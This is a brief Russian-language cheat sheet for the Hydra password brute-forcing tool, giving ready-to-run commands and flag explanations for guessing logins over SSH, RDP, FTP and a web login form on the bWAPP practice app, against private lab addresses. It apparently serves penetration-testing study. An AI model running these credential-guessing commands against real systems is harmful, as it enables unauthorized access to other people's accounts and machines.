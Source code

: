 # Hydra

Написан на C

git: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

Hydra\
\=====\
1\. brute ssh:\
hydra -V -L login -P pass -f [ssh://192.168.10.10](ssh://192.168.10.10)\
\-V отображение перебора в командной строке\
\-L список с логинами;\
\-P список с паролями;\
\-f остановка брута после нахождения успешной комбинации.\
ssh сам хост.\
2\. brute rdp:\
RDP - протокол удаленного управления для винды. Port по умолчанию: 3389\
hydra -t 4 -V -L login -P pass -f [rdp://192.168.10.10](rdp://192.168.10.10)\
\-t количество потоков\
3\. brute ftp\
Для передачи файлов по сети используется протокол FTP. Стандартный порт — 21\
hydra -s 211 -t 4 -V -L login -P pass -f 192.168.30.30\
\-s - указать порт, если исп не по умолчанию\
4\. brute web forms\
hydra -V -L login - P pass -f 192.168.10.20 http-post-form -m "/bWAPP/login.php:login=^USER^\&password=^PASS^\&security\_level=0\&form=submit: F=Invalid credentials"\
http-post-form указываем тип формы (Request Method);\
\-m "указываем путь к форме:саму форму:F=Ошибка, при вводе неправильного пароля"
